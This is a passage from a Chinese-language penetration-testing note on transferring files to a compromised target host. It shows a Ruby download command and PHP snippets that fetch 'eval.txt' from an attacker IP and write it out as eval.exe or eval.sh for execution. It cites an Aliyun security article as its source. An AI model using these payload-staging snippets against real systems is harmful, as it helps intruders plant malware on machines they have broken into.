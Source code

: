 ##### 然后shell 终端运行：

```
ruby download.rb
```



#### ***PHP：***

##### **当目标主机内安装了PHP时，我们可以在终端使用vim来编辑一个PHP脚本，之后执行PHP来实现远程文件下载：**

```
<?php
 $data = @file("http://192.168.10.11/eval. txt");
        $lf = "eval.exe";
        $fh = fopen($lf, 'w');
        fwrite($fh, $data[0]);
        fclose($fh);
?>
```

##### **或者**

```
<?php
 $data = @file("http://192.168.10.11/eval.txt");
file_put_contents('eval.sh',$data);
?>
```

##### 然后运行：

```
php download.php 
```



---



#### 本文内容参考自 https://xz.aliyun.com/t/7937 如有侵权，请联系删除！！！





